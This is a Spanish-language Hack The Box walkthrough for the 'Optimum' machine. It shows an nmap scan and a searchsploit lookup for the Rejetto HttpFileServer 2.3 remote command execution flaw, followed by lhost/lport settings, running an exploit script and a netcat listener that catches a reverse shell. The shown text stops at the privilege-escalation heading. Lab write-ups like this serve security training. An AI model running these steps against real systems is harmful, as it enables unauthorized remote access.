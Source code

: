 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 75%;"}

Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

<br>
**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<br>
**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo <a href="https://www.exploit-db.com/exploits/49584">CVE-2014-6287</a>

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

<br>
**Escalada de privilegios**
